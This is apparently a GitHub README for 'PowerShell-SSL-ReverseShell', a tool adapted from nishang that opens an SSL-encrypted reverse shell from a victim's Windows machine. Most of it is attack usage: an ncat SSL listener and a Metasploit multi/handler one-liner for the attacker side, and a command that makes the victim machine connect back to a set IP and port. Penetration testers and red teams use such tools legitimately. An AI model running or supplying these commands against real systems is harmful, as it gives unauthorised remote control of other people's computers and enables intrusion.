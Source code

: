 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Most of the code from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PowerShell-reverse-shell](https://github.com/martinsohn/PowerShell-reverse-shell)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShellSSL -Reverse -IPAddress 192.168.254.226 -Port 4646

```

#### Demonstration
https://user-images.githubusercontent.com/74554439/197293572-e702d0aa-7390-41e5-ac0e-35b2e13a93d8.mp4
